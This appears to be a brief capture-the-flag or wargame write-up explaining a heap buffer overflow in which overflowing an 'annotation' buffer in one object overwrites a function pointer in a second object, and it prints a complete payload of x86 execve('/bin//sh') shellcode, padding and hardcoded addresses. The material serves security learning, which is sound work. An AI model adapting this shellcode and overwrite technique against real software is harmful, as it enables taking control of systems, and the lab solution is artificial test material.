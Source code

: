 Exploit: Shellcode execution by overwriting a function pointer address with a buffer overflow

By overflow the `annotation`buffer of the first N instance, we can access a pointer on a function stored in the second N instance.
That way, we can change this address to anywhere we want in the memory. We can then use the first N instance buffer to store some shellcode and execute it. 

```
payload = python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 80 + "\x7c\xa0\x04\x08" + "\x0c\xa0\x04\x08"'
```